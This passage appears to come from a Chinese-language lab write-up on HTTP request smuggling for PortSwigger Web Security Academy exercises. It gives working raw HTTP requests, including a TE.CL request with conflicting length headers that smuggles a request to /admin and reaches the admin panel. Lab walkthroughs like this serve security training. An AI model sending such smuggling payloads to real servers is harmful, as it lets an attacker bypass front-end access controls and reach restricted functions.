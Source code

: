 ```

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=


```

![image-20240915161253571](http%E8%B5%B0%E7%A7%81/image-20240915161253571.png)

发送之后可以访问到`/admin`界面了，可以看到删除功能

#### 5.1.2 利用HTTP请求走私绕过前端安全控制，TE.CL漏洞

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

同理上个实验，构造数据包，需要`\r\n\r\n`在后面加上尾随序列`0`：

```
POST / HTTP/1.1
Host: ac3a1fae1e6af8dc808e11f800b3006a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=D0lB6HQGL0w9onv0dX9xPFQZgSLJDGGe
Upgrade-Insecure-Requests: 1
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```